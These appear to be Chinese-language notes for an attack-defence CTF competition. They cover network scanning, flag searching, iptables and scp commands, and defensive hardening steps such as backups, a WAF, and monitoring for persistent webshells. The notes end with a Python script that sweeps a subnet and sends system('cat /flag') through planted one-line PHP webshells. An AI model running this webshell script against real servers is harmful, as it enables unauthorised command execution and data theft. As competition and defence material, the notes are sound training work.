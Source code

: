扫ip  
nmap –sn 192.168.71.0/24  
  
```bash
```
1.先备份服务器  
2.修改ssh密码  
3.dump源码  
4.查找是否有一句话木马  
5.使用 `find / -name *flag*` 或 `grep -rn "flag" *` 类似的语句可以快速发现 flag 所在的地方，方便后续拿分。  
6.bash  
```bash
# ban IP
iptables -I INPUT -s xxx.xxx.xxx.xxx -j DROP
# 解封
iptables -D INPUT -s xxx.xxx.xxx.xxx -j DROP
# 查看当前IP规则表
iptables -list

# scp 命令上传下载
# 下载 scp 
scp -P port username@servername:/path/filename /tmp/local_destination
# 上传 scp
scp /path/local_filename -P port username@servername:/path

# 从服务器下载整个目录
scp -P port -r username@servername:remote_dir/ /tmp/local_dir 
# 例如：
scp -P port -r codinglog@192.168.0.101 /home/kimi/test  /tmp/local_dir

```
  
防守策略：  
1. 重中之重：备份网站源码和数据库。这个作用有二，一是以防自己魔改网站源码或数据库后无法恢复，二是裁判一般会定时 Check 服务是否正常，如果不正常会进行扣分，因此备份也可以防对手入侵主机删源码后快速恢复服务。  
  
2. 系统安全性检查。就是不该开的端口 3306 有没有开启、有没有限制 SSH 登陆、SSH密码 修改、MySQL 是否为默认密码等等，这里可以用脚本刷一遍。  
  
3. 部署 WAF。用自己提前准备好的 WAF，使用脚本进行快速部署，但是要注意验证会不会部署完后服务不可用。  
  
4. 修改权限。比如说 MySQL 用户读表权限，上传目录是否可执行的权限等等。  
  
5. 部署文件监控脚本。监控可读写权限的目录是否新增、删除文件并及时提醒。这里说下，如果被种了不死马的话通常有以下几种克制方法：  
  
强行 kill 掉进程后重启服务  
  
建立一个和不死马相同名字的文件或者目录  
  
写脚本不断删除文件  
  
不断写入一个和不死马同名的文件  
  
6. 部署流量监控脚本或开启服务器日志记录。目的主要是为了进行流量回放，看其它大佬如何用我们没发现的漏洞来打我们的机子，抓取到之后把看不懂的流量直接回放到别的机子去，这里还得提到，我们自己在攻击的时候，也要试着混淆一下自己的攻击流量，不能轻易被别人利用。  
  
  
一句话木马批量利用脚本：  
```Python
#coding=utf-8
import requests
url_head="http://xxx.xx.xxx."    #网段
url=""
shell_addr="/Upload/index.php"
passwd="xxxxx"                    #木马密码
port="80"
payload =  {passwd: 'system(\'cat /flag\');'}

webshelllist=open("webshelllist.txt","w")
flag=open("firstround_flag.txt","w")

for i in range(30,61):
    url=url_head+str(i)+":"+port+shell_addr
    try:
        res=requests.post(url,payload,timeout=1)
        if res.status_code == requests.codes.ok:
            result = url+" connect shell sucess,flag is "+res.text
            print result
            print >>flag,result
            print >>webshelllist,url+","+passwd
        else:
            print "shell 404"
    except:
        print url+" connect shell fail"

webshelllist.close()
flag.close()
```
  
  
  

